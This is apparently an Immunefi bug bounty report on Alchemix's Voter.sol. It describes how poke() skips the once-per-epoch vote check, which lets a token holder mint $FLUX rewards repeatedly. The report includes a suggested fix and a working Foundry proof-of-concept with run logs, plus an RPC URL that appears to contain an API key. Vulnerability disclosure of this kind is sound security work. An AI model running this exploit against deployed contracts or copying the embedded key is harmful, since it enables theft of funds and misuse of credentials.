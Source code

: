 
# `Voter.poke` does not check `lastVoted` resulting in infinite replication of $FLUX

Submitted on Tue May 14 2024 13:38:20 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31196

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

In AlchemixDAO, each $veToken can vote once per epoch, and users can receive $FLUX as a reward after voting. However, the `Voter.poke` interface allows users to easily repeat previous votes without check whether the $veToken has already voted in the current epoch. As a result, users can call the poke interface infinitely to receive $FLUX repeatedly.

## Vulnerability Details

Please see the following code. The `Voter.vote` interface uses the `onlyNewEpoch` modifier to check whether $veToken has voted in the current epoch.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L228-L233
    function vote(
        uint256 _tokenId,
        address[] calldata _poolVote,
        uint256[] calldata _weights,
        uint256 _boost
    ) external onlyNewEpoch(_tokenId) {
```

However, the `Voter.poke` interface, which also has the voting function, does not check `lastVoted`, causing users to call the interface repeatedly.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

**Suggested fix**

Check the `lastVoted` of the token.

```diff
-   function poke(uint256 _tokenId) public {
+   function poke(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

## Impact Details

Users can infinitely copy $FLUX causing Alchemix token economics to collapse.

## References

None
        
## Proof of concept
## Proof of Concept

The PoC patch

```solidity
diff --git a/src/test/Voting.t.sol b/src/test/Voting.t.sol
index 3f1cc5a..c71a697 100644
--- a/src/test/Voting.t.sol
+++ b/src/test/Voting.t.sol
@@ -1562,4 +1562,28 @@ contract VotingTest is BaseTest {
         hevm.expectRevert(abi.encodePacked("invalid pools"));
         voter.vote(tokenId, pools2, weights3, 0);
     }
+
+    function testYttriumzzPocTemp() public {
+        hevm.startPrank(admin);
+
+        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
+
+        console.log(">>>>> before steal");
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        console.log(">>>>> steal 100 times");
+        for (uint256 i = 0; i < 100; i++) { voter.poke(tokenId); }
+        flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        console.log(">>>>> steal 100 times");
+        for (uint256 i = 0; i < 100; i++) { voter.poke(tokenId); }
+        flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testYttriumzzPocTemp() (gas: 4897718)
Logs:
  >>>>> before steal
  >> flux.balanceOf(admin): 0
  
  >>>>> steal 100 times
  >> flux.balanceOf(admin): 99725916412156217700
  
  >>>>> steal 100 times
  >> flux.balanceOf(admin): 199451832824312435400
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 61.62ms (46.36ms CPU time)

Ran 1 test suite in 1.68s (61.62ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

